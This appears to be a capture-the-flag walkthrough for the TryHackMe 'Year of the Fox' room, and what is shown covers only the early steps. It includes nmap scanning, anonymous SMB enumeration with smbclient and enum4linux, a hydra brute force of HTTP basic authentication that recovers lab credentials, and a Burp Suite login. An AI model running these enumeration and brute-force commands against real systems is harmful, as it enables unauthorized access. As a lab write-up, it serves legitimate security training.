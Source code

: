 # [Year of the Fox](https://tryhackme.com/room/yotf)

## Don't underestimate the sly old fox...

# Hack the machine and obtain the flags

## Can you get past the wily fox?

### What is the web flag?

1. First, perform a port scan to identify open services on the target machine.
   - This reveals several open ports including HTTP, SMB, and SSH

```bash
nmap <TARGET_IP>
```

<img width="721" height="286" alt="SCREEN01" src="https://github.com/user-attachments/assets/41b5fd8f-0774-467f-9d40-85f4837af2fb" />

2. Check if SMB allows anonymous access and what shares are available

```bash
smbclient -L //<TARGET_IP> -N
```

<img width="721" height="141" alt="SCREEN02" src="https://github.com/user-attachments/assets/0f57ef6d-1fa4-4ff1-8756-e6df67090327" />

3. Use enum4linux to perform comprehensive SMB enumeration and gather user information
   - This reveals valuable information about users, shares, and system details. We discover potential usernames that can be used for further attacks

```bash
enum4linux -a <TARGET_IP>
```

<img width="720" height="435" alt="SCREEN03" src="https://github.com/user-attachments/assets/643c1710-96b7-4735-9a2b-24ea2d9dc439" />

4. From our enumeration, we found a potential username `rascal`. Let's attempt to brute force the HTTP basic authentication
   - Discovered credentials: `rascal:shelley`

```bash
hydra -l rascal -P /root/Tools/wordlists/rockyou.txt <TARGET_IP> http-get / -I -t 64
```

<img width="723" height="284" alt="SCREEN04" src="https://github.com/user-attachments/assets/9c129e98-d68e-4b46-81ce-bf99f1a599a9" />

5.  Log in to `http://<TARGET_IP>/` using the discovered credentials. Use Burp Suite to intercept HTTP requests

<img width="1054" height="410" alt="SCREEN05" src="https://github.com/user-attachments/assets/29bea022-4c28-49d7-bbf5-f7a87a190124" />

